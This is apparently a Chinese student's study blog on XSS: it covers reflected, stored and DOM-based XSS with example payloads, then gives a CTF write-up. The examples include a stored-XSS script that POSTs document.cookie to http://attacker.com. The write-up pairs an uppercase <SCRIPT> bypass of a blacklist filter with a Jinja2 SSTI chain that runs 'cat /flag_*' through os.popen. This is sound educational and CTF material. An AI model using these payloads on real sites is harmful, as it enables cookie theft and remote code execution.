

这周学习了一下 xss 漏洞。。。，好吧其实是玩嗨了 ISCTF 比赛时间过了，选择了学这个漏洞，下周打算学整个大方向的 sql 注入漏洞和 RCE 漏洞。。。应该？（这次不能又被考住吧，我把我能想到的都搜了看了）

## XSS 漏洞

**跨站脚本攻击（XSS）** 是一种常见的网络应用安全漏洞，攻击者通过向网页中注入恶意脚本，使这些脚本在受害者的浏览器中执行，从而达到窃取用户信息、篡改网页内容等目的。

- **反射型 XSS**

恶意脚本通过用户提供的数据作为参数嵌入到动态生成的网页链接中，当其他用户点击此链接时，恶意脚本会在他们的浏览器中执行。

例：

```
http://example.com/search?q=<script>alert(document.cookie)</script>
```

其中的 `<script>` 标签用于定义客户端脚本，比如 JavaScript。这样我们就可以利用浏览器的 js 来运行脚本，alert 打印，而其中的属性 `document.cookie` 可以创建、读取、及删除 cookie，涉及到了 document 对象，Document 对象使我们可以从脚本中对 HTML 页面中的所有元素进行访问。所以当他人点击这个网址就会运行脚本把他的 cookie 打印出来，打印到警告框中，然后利用 cookie 我们可以拿到很多敏感信息。

- **存储型 XSS**

恶意脚本被存储在服务器端，如数据库或文件中，当其他用户访问包含此恶意脚本的页面时，脚本会在其浏览器中执行。

例：

```
<script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'http://attacker.com', true); xhr.send(document.cookie);</script>
```

其中涉及到 var 语句，var 语句用于声明变量。实例中的变量名是 xhr，值是 `new XMLHttpRequest()`，`var xhr = new XMLHttpRequest();` 这句是创建 XHR 对象，那么什么是 XHR 对象呢？XMLHttpRequest 对象用于幕后与服务器交换数据。通过他我们可以实现

- 在不重新加载页面的情况下更新网页
- 在页面已加载后从服务器请求数据
- 在页面已加载后从服务器接收数据
- 在后台向服务器发送数据

创建完成后，为了发送一个请求到服务器，我们使用 XMLHttpRequest 对象的 open() 和 send() 方法：

open() 格式是 `open(method,url,async)`

*method*：请求的类型：GET 或 POST
*url*：文件在服务器上的位置
*async*：true（异步）或 false（同步）

send() 格式是 `send(string)`

*string*：仅用于 POST 请求

那么实例中的第二句 `xhr.open('POST', 'http://attacker.com', true);`

方法：POST

目标地址：http://attacker.com

true：异步请求

第三句 `xhr.send(document.cookie);` 把当前页面的 `document.cookie` 属性当作请求体发送出去，`document.cookie` 返回当前域名下 JavaScript 可读的 Cookie 字符串

***注：反射型 XSS 中，恶意脚本作为参数（如 URL 查询字符串）传入服务端，服务器未经过滤直接将其嵌入 HTTP 响应返回给用户——脚本仅在受害者点击特制链接时一次性执行，不存于服务端，无持久性；而存储型 XSS 中，恶意脚本被提交并持久化存储于服务端数据库或文件系统（如评论、用户资料），后续任何访问该内容的用户都会自动执行脚本，危害范围广、持续时间长。***

- **DOM 型 XSS**

源于前端 JavaScript 对用户输入数据的不当处理，而非来自服务器端响应。

例：

```
var userInput = document.getElementById('inputBox').value;
document.getElementById('resultDiv').innerHTML = userInput;
```

var 语句用于声明变量，变量名是 userInput，值是 `document.getElementById('inputBox').value`，`document.getElementById('inputBox').value;` 是 js 用于获取输入框内容的方式，其中 `getElementById()` 是一个常用的 DOM 方法，用于获取具有特定 ID 的元素。如果文档中存在具有指定 ID 的元素，则此方法将返回该元素的引用；如果不存在，则返回 null。

那么第一句 `var userInput = document.getElementById('inputBox').value;` 从页面上的 `inputBox` 元素读取用户输入的值。

第二句的 innerHTML 属性设置或返回表格行的开始和结束标签之间的 HTML。

也就是说第二句把用户输入的值直接赋给了 resultDiv 的 innerHTML，而 innerHTML 会把字符串当作 HTML 解析，而不是纯文本显示。也就是说我们可以通过插入 html 标签和事件处理器，形成 DOM-based XSS。

**假如**我们输入 ``，图片加载失败时触发 `onerror`，JavaScript 被执行。而把 1 换成 `document.cookie` 就可以读取 cookie。

**注**：

我们利用 `innerHTML` 插入的 `<script>...</script>` 标签通常不会直接执行。原因是浏览器中的 html 规范明确指出通过 `innerHTML`（以及 `outerHTML`）属性插入的 `<script>` 元素，不会执行。

关键在于 HTML 规范中一个名为 **`parser-inserted`** 的内部标志。

- 当浏览器**原生 HTML 解析器**在加载页面时遇到 `<script>` 标签，该脚本会被标记为 `parser-inserted`，解析器会负责「准备」并执行它。
- 而当你**通过 `innerHTML` 设置内容**时，浏览器内部会创建一个 HTML 片段解析器。这个解析器在生成 DOM 节点时，会**将其中所有 `<script>` 元素标记为 `parser-inserted`，但随后并不触发它们的「准备」和执行流程**。结果是，这些脚本元素被创建并插入到了 DOM 中，但始终处于「已插入、未启动」的状态。

如果需要执行通过类似方式插入的脚本，必须**绕过 `parser-inserted` 机制**。常见做法是：先用 `innerHTML` 将内容解析到一个游离的容器中（此时脚本不执行），然后**用 `document.createElement('script')` 创建新的脚本元素，复制其属性和内容，再通过 `appendChild` 插入文档**。通过 `appendChild` 插入的脚本元素不带有 `parser-inserted` 标志，因此会走正常的执行流程。

当然，我们可以利用其他方式执行脚本

- ``
- `<svg onload=...>`
- `<iframe srcdoc=...>`
- 各种 HTML 事件属性

既然学了，那找点题复现一下吧

## 复现

### spark CTF 2026 小雷的 vibe coding 之旅（2）

1. 分析源代码，我们找到了过滤

```
content = content.replace("<script", "").replace("</script", "")
content = re.sub(r"\bon\w+\s*=", "", content)  # 黑名单过滤
```

这种过滤只过滤小写，但实际上不论大写还是小写都可以运行，所以这些过滤等同于没有

```
content = content.replace("<script", "").replace("</script", "")
content = re.sub(r"\bon\w+\s*=", "", content)   # 黑名单过滤
messages.append({"name": poster, "content": content})
```

```
<div class="msg-content">{{ m.content|safe}}</div>
```

这些代码里我们找出利用 xss 的点，因为 `|safe` 是关闭自动转义，所以我在留言板输入 html 内容会被浏览器运行

```
announcement = new
return render_template_string(announcement) 
```

而这个是公告的渲染，我们就可以利用 render_template_string 进行 SSTI

2. 拿到管理员权限去执行

按常理来讲我们需要去拿到管理员的 cookie 才能够修改公告

但是这个网站的机器人每 15 秒就会以管理员的身份访问 `/guestbook`

而我们只需要利用机器人去发送 POST 请求就可以修改公告拿得到 flag

3. 代码执行

```
<SCRIPT>
fetch('/admin', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded'},
  body: 'announcement={{cycler.__init__.__globals__.os.popen(\'cat /flag_*\').read()}}'
});
</SCRIPT>
```

我们只需要将这串 html 输入到留言板，回到首页公告上就会出现 flag，效果如下



### 知识点

1. `re.sub()` 函数用于将字符串中所有匹配某个正则表达式的部分替换为指定内容，语法为 `re.sub(pattern, repl, string, count=0, flags=0)`，可使用字符串或函数作为替换内容。

   **pattern**：正则表达式

   **repl**：替换内容（字符串或函数）

   **string**：原始字符串

   **count**：最大替换次数，默认 0 表示全部替换

   **flags**：正则标志，如 `re.IGNORECASE` 等

2. `\b` 是单词边界，要求 `on` 的 `o` 前面必须是非单词字符或字符串开头

3. on 是字面量字符 `o`、`n`

4. `\w+` 是 1 个或多个 `[a-zA-Z0-9_]`，所有的大小写字母和数字

5. `\s*` 是 0 个或多个空白

**第二行过滤整体语义是**

匹配一个位置：从单词边界开始，以 `on` 开头，后接至少一个单词字符，再跟任意空白，最后遇到 `=`。把整段替换成空串。

6. `messages.append` 用于向列表中添加新的消息对象

7. 在 Flask 框架中，*render_template_string* 是一个非常有用的函数，它允许开发者直接从字符串中渲染模板，而不是从文件中。这在需要动态生成模板内容时特别有用，例如在服务器端生成 HTML 代码片段。

#### SSTI

SSTI 就是服务器端模板注入（Server-Side Template Injection）

当前使用的一些框架，比如 python 的 flask，php 的 tp，java 的 spring 等一般都采用成熟的的 MVC 的模式，用户的输入先进入 Controller 控制器，然后根据请求类型和请求的指令发送给对应 Model 业务模型进行业务逻辑判断，数据库存取，最后把结果返回给 View 视图层，经过模板渲染展示给用户。

漏洞成因就是服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题。其影响范围主要取决于模版引擎的复杂性。

凡是使用模板的地方都可能会出现 SSTI 的问题，SSTI 不属于任何一种语言，沙盒绕过也不是，沙盒绕过只是由于模板引擎发现了很大的安全漏洞，然后模板引擎设计出来的一种防护机制，不允许使用没有定义或者声明的模块，这适用于所有的模板引擎。

**代码分析**

`{{ ... }}` 是 Jinja2 的表达式输出语法，里面的内容会被求值，结果转成字符串输出到页面。

cycler 是一个 Jinja2 全局对象

`.__init__` 是 `cycler` 类的构造方法（一个 Python 函数对象）

`.__globals__` 是定义该函数的模块的**全局命名空间字典**

`.os` 是 os 模块

`.popen('cat /flag_*')` 是一个文件对象，`os.popen` 启动 shell 执行命令，返回可读的管道

`.read()` 读取管道内容

所以整条链的返回值就是 `cat /flag_*` 的输出。

这是 Jinja2 SSTI 的沙箱逃逸

### Jinja2

Jinja2 是一个基于 Python 的现代模板引擎，用于将变量、列表、字典等数据动态插入到文本结构中，常用于生成 HTML、XML、JSON 等内容，并广泛应用于 Flask、FastAPI 等框架。

#### 核心功能

- **变量渲染**：使用 `{{ ... }}` 输出变量，如 `{{ name }}`。
- **控制结构**：支持 ``、`` 等逻辑语句。
- **模板继承**：通过 `` 和 `` 复用页面结构。
- **过滤器**：如 `{{ text | upper }}` 转换变量输出。
- **安全性**：自动 HTML 转义，防止 XSS。
- **宏（Macros）**：可复用的模板片段。

#### 基本语法

诶嘿，还没学 (=￣ω￣=)

## 下周

应该会把博客端上来，然后学一下 SQL 注入和 RCE 漏洞（应该？**(￣3￣)a**
